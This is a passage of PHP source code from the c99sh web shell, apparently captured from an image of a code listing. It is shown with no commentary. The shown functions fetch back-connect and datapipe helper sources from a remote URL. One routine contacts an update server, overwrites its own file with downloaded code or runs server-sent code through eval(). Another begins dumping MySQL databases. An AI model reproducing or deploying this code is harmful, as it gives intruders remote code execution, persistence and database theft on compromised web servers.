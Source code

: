   "c99sh_backconn.c" =&gt; "c99sh_backconn_c.txt", 
  "c99sh_datapipe.pl" =&gt; "c99sh_datapipe_pl.txt", 
  "c99sh_datapipe.c" =&gt; "c99sh_datapipe_c.txt", 
 ); 
 $name = $array[$fn]; 
 if ($name) {return file_get_contents($c99sh_sourcesurl.$name);} 
 else {return FALSE;} 
} 
} 
if (!function_exists("c99sh_getupdate")) 
{ 
function c99sh_getupdate($update = TRUE) 
{ 
 $url = $GLOBALS["c99sh_updateurl"]."?version=".urlencode(base64_encode($GLOBALS["shver"]))."&updatenow=".($updatenow?"1":"0")."&"; 
 $data = @file_get_contents($url); 
 if (!$data) {return "Can't connect to update-server!";} 
 else 
 { 
  $data = ltrim($data); 
  $string = substr($data,3,ord($data{2})); 
  if ($data{0} == "\x99" and $data{1} == "\x01") {return "Error: ".$string; return FALSE;} 
  if ($data{0} == "\x99" and $data{1} == "\x02") {return "You are using latest version!";} 
  if ($data{0} == "\x99" and $data{1} == "\x03") 
  { 
   $string = explode("\x01",$string); 
   if ($update) 
   { 
    $confvars = array(); 
    $sourceurl = $string[0]; 
    $source = file_get_contents($sourceurl); 
    if (!$source) {return "Can't fetch update!";} 
    else 
    { 
     $fp = fopen(__FILE__,"w"); 
     if (!$fp) {return "Local error: can't write update to ".__FILE__."! You may download c102shell.php manually &lt;a href=\"".$sourceurl."\"&gt;&lt;u&gt;here&lt;/u&gt;&lt;/a&gt;.";} 
     else {fwrite($fp,$source); fclose($fp); return "Thanks! Updated with success.";} 
    } 
   } 
   else {return "New version are available: ".$string[1];} 
  } 
  elseif ($data{0} == "\x99" and $data{1} == "\x04") {eval($string); return 1;} 
  else {return "Error in protocol: segmentation failed! (".$data.") ";} 
 } 
} 
} 
if (!function_exists("mysql_dump")) 
{ 
function mysql_dump($set) 
{ 
 global $shver; 
 $sock = $set["sock"]; 
 $db = $set["db"]; 
 $print = $set["print"]; 
 $nl2br = $set["nl2br"]; 
 $file = $set["file"]; 
 $add_drop = $set["add_drop"]; 
 $tabs = $set["tabs"]; 
 $onlytabs = $set["onlytabs"]; 
 $ret = array(); 
 $ret["err"] = array(); 
 if (!is_resource($sock)) {echo("Error: \$sock is not valid resource.");} 
 if (empty($db)) {$db = "db";} 